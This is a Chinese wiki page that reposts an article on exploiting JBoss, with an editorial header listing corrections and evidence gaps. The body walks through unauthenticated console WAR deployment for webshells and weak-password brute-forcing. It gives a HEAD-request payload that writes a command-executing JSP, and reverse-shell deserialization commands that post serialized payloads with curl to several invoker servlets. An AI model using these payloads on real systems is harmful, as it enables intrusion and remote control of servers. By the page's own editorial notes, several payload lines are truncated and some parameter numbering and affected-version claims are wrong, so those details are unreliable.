# Jboss 漏洞利用总结

<!-- vulwiki-editorial:start -->
## 校订与适用边界

- 证据范围：多入口综述可作为导航保留，不能将若干相同payload视同漏洞；2013-4810被当泛JBoss EJB漏洞但原始披露对应HP产品。

### 已有来源支持的更正

- 原始4810披露为HP PCM+/ALM暴露EJB/JMX Invoker可部署应用，不能直接用CC版本替代HP产品范围
- 1036为默认管理界面未设访问限制，安装器可选保护、原始包需管理员配置；非全版本无条件

### 尚未解决的证据缺口

以下限制仍适用于后文历史材料；相关版本、结果或修复结论不能据此视为已验证：

- 7501/4810将依赖版本列成产品影响范围，并称主要6.x无依据
- 2006-5750与2007-1036仅差methodIndex的归因未有厂商证据，不宜作为等价关系
- store参数编号前后从arg0–3变arg1–4，还漏boolean参数说明
- Jboss5开始JMX不能部署断言与同库JexBoss支持5/6相冲突，需按MBean具体能力核对
- HEAD请求换行截断methodIndex、未编码JSP；JavaDeserH2HC作者/参数版本缺出处
- 冗余控制台路径复制截断；公众号链接含跟踪/会话样式参数，来源定位与可访问性仍待核验；无部署清理

### 核验来源

- https://www.zerodayinitiative.com/advisories/ZDI-13-229/
- https://access.redhat.com/security/cve/cve-2007-1036

### 操作风险与资料使用

- 含反向连接或交互式命令执行方法：会产生出站连接和子进程；目标、监听端与网络须在授权隔离范围内，结束后关闭会话并核对遗留进程。
- 含落盘脚本或账户创建：会留下持久状态。记录本次生成的路径或账户，测试后清理这些对象并撤销关联令牌；不要删除既有业务对象。

本页为文本校订，未执行代码、PoC 或目标请求；原图仅保留引用，未据此确认复现成功。
<!-- vulwiki-editorial:end -->

## 技术正文与历史材料

<meta name="referrer" content="no-referrer"/>

> 本文由 [简悦 SimpRead](http://ksria.com/simpread/) 转码， 原文地址 [mp.weixin.qq.com](https://mp.weixin.qq.com/s?\_\_biz=MzU4NTY4MDEzMw==&mid=2247486026&idx=1&sn=4506f56907afa88daa133119bbaae802&chksm=fd879e20caf0173643b991e9ea9300f2fff2e69ce0c12173a8a4c509292083ce7fa13fb74308&mpshare=1&scene=1&srcid=1023Tdls8JDF0KziT2zhJrvd&sharer\_sharetime=1603413026463&sharer\_shareid=c051b65ce1b8b68c6869c6345bc45da1&key=4cf40c946f4d610cff5979e68cb1cc4bbc9d97310eb3bb535533e1217c4f4a32d332e2ba715dc3ea50845869fbd2aa2491312a2dae859f77c069b1d03de16a31708d63587f3499ce236ba434def6fc136cf0b6403e9ab618120851bd9eb614e1ef5cb0890ec2c7f00e54a19f9d25bfba81831e1e0b8588c057ae801dc8e543a6&ascene=1&uin=ODk4MDE0MDEy&devicetype=Windows+10+x64&version=6300002f&lang=zh\_CN&exportkey=Adbz9Z4SiNjGBCooZifZUhI%3D&pass\_ticket=MIC5Ar%2FikzMcOH1F8HNnc411WxyFMo1Kw3L353SY3XmezYiEUuovrlDORbkreA49&wx\_header=0)

JBOSS 简介

```
JBoss是一个基于J2EE的开放源代码应用服务器，代码遵循LGPL许可，可以在任何商业应用中免费使用；JBoss也是一个管理EJB的容器和服务器，支持EJB 1.1、EJB 2.0和EJB3规范。但JBoss核心服务不包括支持servlet/JSP的WEB容器，一般与Tomcat或Jetty绑定使用。在J2EE应用服务器领域，JBoss是发展最为迅速的应用服务器。由于JBoss遵循商业友好的LGPL授权分发，并且由开源社区开发，这使得JBoss广为流行。
```

漏洞汇总



访问控制不严导致的漏洞  
Jboss 管理控制台  
Jboss4.x  
jboss 4.x 及其之前的版本 console 管理路径为 /jmx-console/ 和 /web-console/ 。  
jmx-console 的配置文件为

```
/opt/jboss/jboss4/server/default/deploy/jmx-console.war/WEB-INF/jboss-web.xml  #jboss的绝对路径不同网站不一样
```

web-console 的配置文件为

```
/opt/jboss/jboss4/server/default/deploy/management/console-mgr.sar/web-console.war/WEB-INF/jboss-web.xml  #jboss的绝对路径不同网站不一样
```

web-console 的配置文件为

```
/opt/jboss/jboss4/server/default/deploy/management/console-mgr.sar/web-console.war/WEB-INF/jboss-web.xml  #jboss的绝对
```

控制台账号密码  
jmx-console 和 web-console 共用一个账号密码 ，账号密码文件在

```
/opt/jboss/jboss4/server/default/conf/props/jmx-console-users.properties
```



JMX Console 未授权访问 Getshell

漏洞描述  
此漏洞主要是由于 JBoss 中 / jmx-console/HtmlAdaptor 路径对外开放，并且没有任何身份验证机制，导致攻击者可以进⼊到 jmx 控制台，并在其中执⾏任何功能。

影响版本  
Jboss4.x 以下

漏洞利⽤  
Jboxx4.x /jmx-console/ 后台存在未授权访问，进入后台后，可直接部署 war 包 Getshell。若需登录，可以尝试爆破弱口令登录。



然后找到 jboss.deployment（jboss 自带的部署功能）中的 flavor=URL,type=DeploymentScanner 点进去（通过 url 的方式远程部署）



也可以直接输入 URL 进入

```
http://xx.xx.xx.xx:8080/jmx-console/HtmlAdaptor?action=inspectMBean&name=jboss.deployment:type=DeploymentScanner,flavor=URL
```

找到页面中的 void addURL() 选项来远程加载 war 包来部署。



查看部署是否成功  
返回到刚进入 jmx-console 的页面，找到 jboss.web.deployment，如下说明部署成功。如果没显示，多刷新几次页面或者等会儿，直到看到有部署的 war 包即可



访问我们的木马



```
通常像上面这样部署的webshell,物理路径默认都会在以下目录下 
\\jboss-4.2.3.GA\\server\\default\\tmp\\deploy\\xxx.war
而这个目录最多用作临时维持下权限,所以可以把shell传到jmx-console的默认目录来巩固权限
\\jboss-4.2.3.GA\\server\\default\\deploy\\jmx-console.war
```

JMX Console HtmlAdaptor Getshell（CVE-2007-1036）

漏洞描述

```
此漏洞主要是由于JBoss中/jmx-console/HtmlAdaptor路径对外开放，并且没有任何身份验证机制，导致攻击者可以进⼊到jmx控制台，并在其中执⾏任何功能。该漏洞利⽤的是后台中jboss.admin -> DeploymentFileRepository -> store()⽅法，通过向四个参数传⼊信息，达到上传shell的⽬的，其中arg0传⼊的是部署的war包名字，arg1传⼊的是上传的⽂件的⽂件名，arg2传⼊的是上传⽂件的⽂件格式，arg3传⼊的是上传⽂件中的内容。通过控制这四个参数即可上传shell，控制整台服务器。
```

影响版本  
Jboss4.x 以下

漏洞利用  
输⼊ url

http:// 目标 IP:8080/jmx-console/HtmlAdaptor?action=inspectMBean&name=jboss.admin:service=DeploymentFileRepository

定位到 store ⽅法

```
通过向四个参数传入信息，达到上传shell的目，
arg1传入的是部署的war包名字
arg2传入的是上传的文件的文件名
arg3传入的是上传文件的文件格式
arg4传入的是上传文件中的内容
通过控制这四个参数即可上传shell，控制整台服务器。
```



后面的 CVE-2010-0738 和 CVE-2006-5750 漏洞也存在这一特性。

JMX 控制台安全验证绕过漏洞（CVE-2010-0738）

漏洞描述  
该漏洞利⽤⽅法跟 CVE-2007-1036 ⼀样，只是绕过了 get 和 post 传输限制，利⽤  
head 传输⽅式发送 payload

影响版本  
jboss4.2.0、jboss 4.3.0

漏洞利⽤  
利⽤ head 传输⽅式，payload 如下：

```
HEAD /jmx-console/HtmlAdaptor?
action=invokeOp&name=jboss.admin:service=DeploymentFileRepository&methodIn
dex=6&arg0=../jmx-console.war/&arg1=hax0rwin&arg2=.jsp&arg3=
<%Runtime.getRuntime().exec(request.getParameter("i"));%>&arg4=True
HTTP/1.1
Host: hostx:portx
User-Agent: Mozilla/5.0 (Windows; U; Windows NT 5.1; en-US; rv:1.9.1.9)
Gecko/20100315 Firefox/3.5.9 (.NET CLR 3.5.30729)
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,\*/\*;q=0.8
Accept-Language: en-us,en;q=0.5
Accept-Encoding: gzip,deflate
Accept-Charset: ISO-8859-1,utf-8;q=0.7,\*;q=0.7
Keep-Alive: 300
Proxy-Connection: keep-alive
```

CVE-2006-5750

```
此漏洞利用原理和CVE-2007-1036漏洞相同，唯一的区别是CVE-2006-5750漏洞利用methodIndex进行store()方法的调用。其中methodIndex是通过方法的编号进行调用。
```

Jboss5.x/6.x 控制台

Jboss5.x 开始弃用了 web-console ，增加了 admin-console。jboss5.x / 6.x 版本 console 路径为 /jmx-console/ 和 /admin-console/。

jmx-console 的配置文件为

```
jboss/common/deploy/jmx-console.war/WEB-INF/jboss-web.xml  #jboss的绝对路径不同网站不一样
```

admin-console 的配置文件为

```
jboss/common/deploy/admin-console.war/WEB-INF/jboss-web.xml   #jboss的绝对路径不同网站不一样
```

控制台账号密码  
jmx-console 和 web-console 共用一个账号密码 ，账号密码文件在

```
jboss/server/default/conf/props/jmx-console-users.properties
```

Jboss 5.x/6.x admin-Console 后台部署 war 包 Getshell  
Jboss5.X 开始，jmx-console 不能部署 war 包了，需要 admin-console 后台部署  
登录进 admin-console 后台后，点击 Web Application(WAR)s ，然后 Add a new resource







这里选择我们本地生成好的 war 包





访问木马成功

JBoss JMXInvokerServlet 反序列化漏洞 (CVE-2015-7501)

```
这是经典的 JBoss 反序列化漏洞，
JBoss在 /invoker/JMXInvokerServlet 请求中读取了用户传入的对象，然后我们可以利用 Apache Commons Collections 中的 Gadget 执行任意代码。
由于JBoss中invoker/JMXInvokerServlet路径对外开放，JBoss的jmx组件⽀持Java反序列化
```

影响版本  
实际上主要集中在 jboss 6.x 版本上:

```
Apache Group Commons Collections 4.0 
 Apache Group Commons Collections 3.2.1 
 Apache Group Commons Collections
```

漏洞探测  
此漏洞存在于 JBoss 中 /invoker/JMXInvokerServlet 路径。访问若提示下载 JMXInvokerServlet，则可能存在漏洞。



我们先启动靶机环境，访问：http://yourip:8080/



下面使用 JavaDeserH2HC 生成反弹 shell 的 payload

```
javac -cp .:commons-collections-3.2.1.jar ReverseShellCommonsCollectionsHashMap.java
 java -cp .:commons-collections-3.2.1.jar ReverseShellCommonsCollectionsHashMap 公网vps的ip:端口号
 curl http://目标IP:8080/invoker/JMXInvokerServlet --data-binary @ReverseShellCommonsCollectionsHashMap.ser
```

进行文件编译  
生成载荷的序列化文件 xx.ser(反弹 shell 到我们的 vps)  
利用 curl 提交我们的 ser 文件



vps 使用 nc 监听端口  
成功反弹



JBoss EJBInvokerServlet CVE-2013-4810 反序列化漏洞

```
此漏洞和CVE-2015-7501漏洞原理相同，两者的区别就在于两个漏洞选择的进行其中JMXInvokerServlet和EJBInvokerServlet利用的是org.jboss.invocation.MarshalledValue进行的反序列化操作，而web-console/Invoker利用的是org.jboss.console.remote.RemoteMBeanInvocation进行反序列化并上传构造的文件。
```

影响版本  
实际上主要集中在 jboss 6.x 版本上:

```
Apache Group Commons Collections 4.0 
 Apache Group Commons Collections 3.2.1 
 Apache Group Commons Collections
```

漏洞利用  
跟 CVE-2015-7501 利⽤⽅法⼀样，只是路径不⼀样，这个漏洞利⽤路径是 /invoker/EJBInvokerServlet

JBOSSMQ JMS CVE-2017-7504 集群反序列化漏洞 4.X

漏洞描述  
JBoss AS 4.x 及之前版本中，JbossMQ 实现过程的 JMS over HTTP Invocation Layer 的 HTTPServerILServlet.java ⽂件存在反序列化漏洞，远程攻击者可借助特制的序列化数据利⽤该漏洞执⾏任意代码。

影响版本  
JBoss AS 4.x 及之前版本

漏洞利用  
1、首先验证目标 jboss 是否存在此漏洞, 直接访问  
/jbossmq-httpil/HTTPServerILServlet 路径下。若访问 200，则可能存在漏洞。



此处我们使用 JavaDeserH2HC 工具来利用该漏洞, 尝试直接弹回一个 shell

```
javac -cp .:commons-collections-3.2.1.jar ReverseShellCommonsCollectionsHashMap.java
java -cp .:commons-collections-3.2.1.jar ReverseShellCommonsCollectionsHashMap 反弹的IP:端口
curl http://目标IP:8080/jbossmq-httpil/HTTPServerILServlet/ --data-binary @ReverseShellCommonsCollectionsHashMap.ser
```



